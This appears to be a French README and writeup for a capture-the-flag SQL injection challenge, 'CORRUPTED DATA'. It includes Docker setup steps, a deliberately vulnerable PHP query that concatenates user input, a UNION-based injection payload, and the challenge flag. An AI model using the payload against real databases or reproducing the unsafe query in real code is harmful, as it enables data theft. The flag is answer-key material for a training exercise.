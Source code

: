 # CORRUPTED DATA
### Web
sqli

La base de données des consciences est corrompue. Je pense que le mot "flag" brise quelque chose. Il faudrait que je puisse l'ignorer dans ma recherche.

gtsthilaire

### Besoins

- Docker Apache (ou nginx), PHP et MySQL/MariaDB

### Étapes

- Ajuster les ports des services Docker dans le docker compose.

- Partir les 2 services Docker à l'aide du docker compose.

- S'assurer que le service MariaDB a bien exécuté le script SQL du dossier data.

## Writeup

- La requête est construite comme ça :
$sql = "SELECT * FROM consciences WHERE nom LIKE '%" . $nom . "%'";

- On peut donc modifier la requête en injectant ceci pour enlever le mot flag :
' UNION SELECT 1, SUBSTRING(nom, 2, 50) FROM consciences; --

- Qui donnera cette requête :
SELECT * FROM consciences WHERE nom LIKE '%%' UNION SELECT 1, SUBSTRING(nom, 2, 30) FROM consciences; -- ';

## Flag

cst{f1x_d3_c0n5c13nc35_c0rr0mpu35}
